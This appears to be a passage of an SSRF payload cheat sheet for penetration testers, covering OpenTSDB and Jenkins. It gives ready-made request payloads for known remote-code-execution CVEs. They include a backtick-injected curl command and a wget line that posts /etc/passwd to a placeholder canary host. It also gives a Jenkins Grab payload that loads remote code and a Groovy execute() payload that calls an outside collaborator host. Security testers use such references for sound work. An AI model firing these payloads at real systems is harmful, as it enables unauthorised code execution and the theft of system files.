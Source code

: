 <div id="opentsdb"></div>

## OpenTSDB

**Commonly bound port: 4242**

[OpenTSDB Remote Code Execution](https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html)

**SSRF Canary: curl via RCE**

```bash
/q?start=2016/04/13-10:21:00&ignore=2&m=sum:jmxdata.cpu&o=&yrange=[0:]&key=out%20right%20top&wxh=1900x770%60curl%20SSRF_CANARY%60&style=linespoint&png
```

[OpenTSDB 2.4.0 Remote Code Execution](https://github.com/OpenTSDB/opentsdb/issues/2051)

**SSRF Canary: curl via RCE - CVE-2020-35476**

```bash
/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('wget%20--post-file%20/etc/passwd%20SSRF_CANARY')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

<div id="jenkins"></div>

## Jenkins

**Commonly bound ports: 80,443 (SSL),8080,8888**

Great writeup [here](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html).

**SSRF Canary: CVE-2018-1000600**

```bash
/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.github.config.GitHubTokenCredentialsCreator/createTokenByPassword?apiUrl=http://SSRF_CANARY/%23&login=orange&password=tsai
```

**RCE**

Follow the instructions here to achieve RCE via GET: [Hacking Jenkins Part 2 - Abusing Meta Programming for Unauthenticated RCE!](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html)

```bash
/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile?value=@GrabConfig(disableChecksums=true)%0a@GrabResolver(name='orange.tw', root='http://SSRF_CANARY/')%0a@Grab(group='tw.orange', module='poc', version='1')%0aimport Orange;
```

**RCE via Groovy**

```
cmd = 'curl burp_collab'
pay = 'public class x {public x(){"%s".execute()}}' % cmd
data = 'http://jenkins.internal/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=' + urllib.quote(pay)
```
